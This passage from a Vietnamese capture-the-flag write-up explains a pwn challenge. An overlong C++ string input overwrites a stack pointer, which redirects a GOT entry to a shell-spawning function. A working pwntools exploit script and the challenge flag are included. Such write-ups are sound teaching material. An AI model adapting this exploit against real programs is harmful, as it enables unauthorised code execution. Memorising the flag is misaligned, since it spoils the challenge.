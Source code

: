 - Chọn 3 thì sẽ nhập vào con trỏ có sẵn trên stack. Nếu nhập quá độ dài cho phép thì nó sẽ cấp phát động địa chỉ heap thay vì nhập trên stack do implement của string trong C++
![upload_84816947cf61b5d0a443875add56733d.png (1571×372) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_84816947cf61b5d0a443875add56733d.png)

Tới đây ta có hướng giải là ghi đè địa chỉ stack kia thành một địa chỉ nào đó trong `got` thành địa chỉ chỗ hàm lấy shell kia do có `no pie` và `partial relro`
Ta thấy khi ta chọn option bất kỳ thì thấy nó sẽ gọi hàm ở `0x401180` để in ra byte, nhưng địa chỉ này lại không ghi được, thay vào đó có địa chỉ `0x404048` cho phép ta ghi

![upload_da59b8cef3664994abe2be92bdc1d4c2.png (1754×594) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_da59b8cef3664994abe2be92bdc1d4c2.png)

Cuối cùng viết script:
```python
from pwn import *
exe = ELF("chall")

p = process(exe.path)
p.sendlineafter(b'choice: ',b'1')
p.sendlineafter(b'c_str: ',b'a'*32+p64(0x404048))

p.sendlineafter(b'choice: ',b'3')
p.sendlineafter(b'str: ',p64(0x4016de))

p.sendline(b'5')
p.interactive()
```
Flag: `HCMUS-CTF{it's_ok_i_still_love_you}`
